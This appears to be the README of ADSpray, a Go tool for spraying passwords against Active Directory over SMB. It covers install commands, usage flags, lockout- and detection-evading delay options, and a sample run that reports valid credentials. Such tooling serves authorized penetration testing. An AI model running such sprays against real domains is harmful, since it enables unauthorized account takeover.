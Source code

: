 # ADSpray

ADSpray is a password spraying that can be used to spray passwords against Active Directory. Since it's written in Go, it should work on any operating system and any architecture. Operators can configure the amount of attempts and how long the software should wait to try another spray. In addition, the timeout between authentication attempts can be changed. A logon attempt is seen as valid when the user is able to log in, the account is disabled or when the status must change. All login attempts are logged to a text file. 

## Features

- **Password Spraying:** Attempts a specified number of passwords per user, per cycle.
- **SMB Protocol:** Operates over SMB for authentication attempts.
- **Configurable Delays:** Supports jitter (milliseconds) between attempts and sleep (minutes) between cycles to avoid detection and lockouts.
- **Logging:** Outputs results to a log file for review.

## Installation

```
git clone https://github.com/ShamelessNanoUser/ADSpray
cd ADSpray
go build 
```

## Usage

```sh
./ADSpray -h
Usage of ./ADSpray:
  -a, --attempts int       Amount of passwords to try during one spray cycle
  -t, --dc string          IP address of target domain controller
  -d, --domain string      FQDN of target domain
  -h, --help               Argument to show help
  -j, --jitter int         Sleep time in milliseconds between connection attempts, also known as jitter (default 50)
  -o, --output string      Output file for spray log (default "spray_log.txt")
  -p, --passwords string   Path to text file containing passwords to spray
  -s, --sleep int          Sleep time in minutes between spray cycles
  -u, --users string       Path to text file containing usernames to spray against
```

## Example

```
./ADSpray -d howdoiexitvim.local -t 192.168.1.0 -u users.txt -p passwords.txt -a 3 -s 15 
Did you check if there is a Fine Grained Password Policy in place? (y/n) y
ADSpray is now gonna start spraying 2 passwords per 10 minutes, continue? (y/n) y
File spray_log.txt exists, overwrite? (y/n) y
[+] Spraying the password Password01
[+] Spraying the password Password01!
[!] Found valid credentials: john:Password01!
[!] Found valid credentials: lucas:Password01! - NT_STATUS_DISABLED
[!] Found valid credentials: noah:Password01! - STATUS_PASSWORD_EXPIRED
[+] Spraying the password Password123
[+] Reached maximum attempts, sleeping for: 07:20

```
